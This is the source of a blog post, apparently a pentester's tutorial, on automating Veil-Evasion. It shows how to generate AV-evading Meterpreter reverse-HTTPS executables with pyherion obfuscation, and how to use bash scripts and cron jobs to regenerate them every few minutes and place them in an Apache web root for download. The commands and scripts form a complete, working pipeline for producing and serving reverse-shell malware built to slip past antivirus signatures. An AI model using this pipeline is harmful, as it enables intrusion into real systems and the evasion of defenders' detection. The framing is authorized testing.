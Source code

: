 ```yaml
---
layout: post
title: Fresh Veil- Automatically Generating Payloads
category: Payloads
year: 2014
month: 2
day: 17
published: true
summary: Keep your Veil payloads fresh to avoid getting caught by signatures.
image: 
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.</p>

<p>Getting caught by AV during a test is not awesome.</p>
<p>Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.</p>

<p>The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. </p>

<br><p><b>Server Build</b></p>
<p>This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).</p>
<p>For setup, make a directory called <code>/root/payload_temp</code> and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. </p>
<p>The <code>/root/payload_temp</code> directory is where we’ll generate the payload before we move it to our apache root.</p><br>

<p>Let’s take a look at Veil’s command line options:</p>
<img src="{{site.url}}/assets/freshveil1.png" style="height:400px"><br><br>

<p>Using these options, you can generate any payload from within Veil from the command line.</p>

<br><p>For the example code below we’ll make a <code>python/meterpreter/rev_https_contained</code> payload:</p>

<p><code>python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite</code></p>

<p>The <code>--overwrite</code> is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.</p>

<p>With the Veil command figured out, create a bash script called <code>/payload_gen.sh</code> to generate the payload and move it to the apache root:</p>

<pre><code>#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

Now we’ll add this to the cron:
<p><code>crontab -e</code> will bring up the cron settings. In the first two blank lines enter:
<pre><code>10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh</code></pre>

<p>This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.

<p>That’s it. Easy, right?
<p>Good. Moving on…


<br><br><p><b>Variable IP Auto-Generation</b></p>
<p>Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.

<p>So <code>payload_gen2.sh</code> will pull the active eth0 IPv4 address and plug it into the same script:

<pre><code>#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

<p>For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using <code>crontab -e</code> and place the following code at the bottom:
<pre><code>* * * * * /payload_gen2.sh</code></pre>

<p>You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.




     </div>
     </div>
     <div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>